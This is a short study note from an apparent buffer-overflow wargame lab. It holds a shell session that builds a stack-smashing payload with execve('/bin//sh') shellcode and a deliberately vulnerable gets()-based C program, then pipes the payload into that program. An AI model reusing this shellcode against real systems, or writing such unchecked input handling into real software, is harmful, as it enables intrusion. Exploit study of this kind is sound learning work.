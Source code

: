 # BOF_Using_file

- [Using (cat $file; cat) to run a simple BOF exploit](https://security.stackexchange.com/questions/155844/using-cat-file-cat-to-run-a-simple-bof-exploit)  

- [Using cat to overcome 'Stack smash detected'](https://security.stackexchange.com/questions/112009/using-cat-to-overcome-stack-smash-detected)

```assembly
[gremlin@localhost gremlin]$ ls
cobalt  cobolt  cobolt.c  core  exp.txt  test  test.c  tmp
[gremlin@localhost gremlin]$ bash2
[gremlin@localhost gremlin]$ cat exp.txt
AAAAAAAAAAAAAAAA
[gremlin@localhost gremlin]$ python -c 'print"A"*20+"\xcc\xfa\xff\xbf"+"\x90"*100+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"' > exp.txt
[gremlin@localhost gremlin]$ cat exp.txt
AAAAAAAAAAAAAAAAAAAAͺÿ¿1󿿐h//shh/bin⏓ኂ°
                                      ̀ 
[gremlin@localhost gremlin]$ cat test.c 
#include<stdio.h>
int main(){
char buffer[20];
gets(buffer);
puts(buffer);
puts("hihihihihihihihihihihihi");
return 0;
}
[gremlin@localhost gremlin]$ cat exp.txt; cat | ./test
AAAAAAAAAAAAAAAAAAAAͺÿ¿1󿿐h//shh/bin⏓ኂ°
                                      ̀ 


hihihihihihihihihihihihi

Broken pipe
[gremlin@localhost gremlin]$ exit 
exit
[gremlin@localhost gremlin]$ exit
logout
```


- Like this?